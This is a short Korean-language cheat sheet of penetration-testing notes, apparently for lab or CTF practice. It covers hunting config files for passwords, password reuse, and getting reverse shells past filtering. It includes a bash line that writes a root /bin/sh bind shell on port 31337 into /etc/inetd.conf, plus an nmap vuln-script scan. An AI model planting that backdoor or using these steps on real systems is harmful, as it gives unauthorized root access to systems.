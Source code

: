 - config 파일을 먼저 find로 모두 찾아본 뒤에 패스워드 혹은 해시가 적혀 있는지 확인

- password reuse

- curl 헤더 확인

- 사이트 제목 및 내용 확인
---
# 리버스 셸 연결이 안될 때
- nc/bash/python3 등 리버스 연결이 되지 않는다면 elf 파일 혹은 exe 파일을 만들어서 전달해서 실행시켜보기.
- 리스닝 포트를 well knwon 포트(80,443 등)로 바꿔서 받아보기.

---
# inetd.conf(옛날 리눅스 환경)
```bash
echo '31337 stream tcp nowait root /bin/sh -i' >> /etc/inetd.conf"
```

- 31337번 포트로 바인드 셸 연결

---
# NMAP
```bash
sudo nmap --scrip vuln <ip>
```
- 취약점을 찾기 어려울 때 nmap 실행해서 확인
- /etc/hosts에 등록하고 난 뒤에 nmap 한번 더 실행해주기.
